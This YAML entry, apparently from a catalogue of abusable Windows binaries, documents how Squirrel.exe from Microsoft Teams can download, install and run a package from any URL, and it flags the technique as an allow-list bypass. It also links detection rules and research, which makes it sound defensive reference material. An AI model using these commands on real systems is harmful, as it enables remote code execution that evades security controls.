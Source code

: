 ```yaml
---
Name: Squirrel.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Reegun J (OCBC Bank) - @reegun21'
Created: 2019-06-26
Commands:
  - Command: squirrel.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download binary
    Category: Download
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --update [url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --update [url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --updateRoolback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: '%localappdata%\Microsoft\Teams\current\Squirrel.exe'
Code_Sample:
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/19396788dbedc57249a46efed2bb1927abc376d4/rules/windows/process_creation/proc_creation_win_lolbin_squirrel.yml
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
  - Link: https://medium.com/@reegun/update-nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-b55295144b56
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
  - Person: Adam
    Handle: '@Hexacorn'
---
```

